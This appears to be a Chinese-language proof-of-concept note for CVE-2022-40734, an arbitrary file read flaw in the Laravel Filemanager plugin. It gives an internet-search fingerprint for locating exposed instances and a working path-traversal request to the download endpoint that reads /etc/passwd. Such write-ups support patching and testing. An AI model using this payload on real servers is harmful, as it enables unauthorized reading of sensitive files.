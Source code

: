 # Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

```
Laravel Filemanager插件
```

## 网络测绘

```
"Laravel Filemanager"
```

## 漏洞复现

主页面

![image-20221008100131910](images/202210081001002.png)

验证POC

```
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![image-20221008100154056](images/202210081001131.png)



